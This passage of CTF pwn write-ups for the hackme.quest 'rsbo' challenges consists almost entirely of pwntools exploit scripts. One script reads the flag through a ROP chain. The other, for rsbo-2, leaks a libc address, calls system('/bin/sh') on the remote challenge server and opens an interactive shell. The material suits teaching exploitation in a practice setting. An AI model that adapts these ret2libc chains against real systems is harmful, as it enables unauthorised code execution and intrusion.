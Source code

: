 ```python
flag_add = 0x80487d0


payload = b'\x00'*offset + p32(open_plt) + p32(start) + p32(flag_add)  + p32(0) 
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)
payload = b'\x00'*offset + p32(read_plt) + p32(start) + p32(0x3) + p32(bss) + p32(0x60)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)
payload = b'\x00'*offset + p32(write_plt) +p32(0xdeadbeef) + p32(1) + p32(bss) + p32(0x60)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)

print(p.recv())
p.close()
```

#### 71 Pwn    rsbo-2

参考：

```
https://xz.aliyun.com/t/3703
```

write up：

```python
from pwn import *

#context.log_level="debug"
#p = process("./rsbo")
p = remote("ctf.hackme.quest", 7706)

elf = ELF("./rsbo")
libc = ELF("./libc-2.23.so.i386")
start = 0x08048490
write_plt = elf.plt["write"]
write_got = elf.got["write"]
read_plt = elf.plt["read"]
read_got = elf.got["read"]
bss = elf.bss()
offset = 0x6c


payload = b"\x00" * offset + p32(write_plt) + p32(start) + p32(1) + p32(read_got) + p32(4)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)
read = u32(p.recv(4))
libc_base=read-libc.symbols["read"]
print("libc   base: %08x"%libc_base)
system_addr = libc_base +libc.symbols["system"]
print("system addr: %08x"%system_addr)

payload = b"\x00" * offset + p32(read) + p32(start) + p32(0) + p32(bss) + p32(8)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)
p.send(b"/bin/sh\x00")

payload = b"\x00" * offset + p32(system_addr) + p32(start) + p32(bss)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)

p.sendline(b"ls")
p.interactive()
```